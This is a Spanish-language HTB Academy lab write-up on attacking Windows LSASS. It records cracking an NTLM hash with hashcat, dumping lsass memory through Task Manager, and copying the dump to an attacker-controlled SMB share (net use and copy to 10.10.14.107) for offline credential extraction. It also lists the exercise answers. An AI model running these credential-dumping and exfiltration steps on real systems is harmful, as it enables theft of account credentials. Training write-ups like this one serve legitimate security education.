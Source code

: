 ```shell-session
Polika4RM@htb[/htb]$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt

64f12cddaa88057e06a81b54e73b949b:Password1
```

---

**1. What is the name of the executable file associated with the Local Security Authority Process?**
Teoría: **lsass.exe**

**2. Apply the concepts taught in this section to obtain the password to the Vendor user account on the target. Submit the clear-text password as the answer. (Format: Case sensitive)

Me conecto por RDP al servidor:
```
xfreerdp /v:10.129.202.149 /u:htb-student /p:'HTB_@cademy_stdnt!'
```

Voy a usar el Administrador de tareas para crear un volcado de memoria. Para ello, debemos:
- Abrir el Administrador de tareas
- Seleccionar la pestaña Procesos
- Buscar y hacer clic con el botón derecho en el proceso de la Autoridad de Seguridad Local
- Seleccionar: *Crear archivo de volcado*
Me devuelve el mensaje conforme el archivo se ha guardado en la ruta:
>C:\Users\HTB-ST~1\AppData\Local\Temp\lsass.DMP

No hay conexión a internet en la víctima para instalar el "pypykatz", pues necesito pasármelo a mi máquina Kali local. 

Desde linux (atacante), ejecuto:
```shell-session
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

Me aseguro que la carpeta /tmp/smbshare se haya creado, de lo contrario, ejecuto:
```
sudo mkdir -p /tmp/smbshare
sudo chmod 777 /tmp/smbshare
ls -ld /tmp/smbshare
```

Desde la víctima, ejecutaré en un cmd como administrador:
```
net use N: \\10.10.14.107\share /user:test test
copy C:\Users\htb-student\AppData\Local\Temp\lsass.dmp N:\
```

Después, desde la máquina atacante Linux, accediendo a:
```
cd /tmp/smbshare
```

Debería encontrar el archivo lsass.dmp.

A partir de aquí no pude continuar con el ejercicio porque la conexión RDP es muy inestable y se caía constantemente.
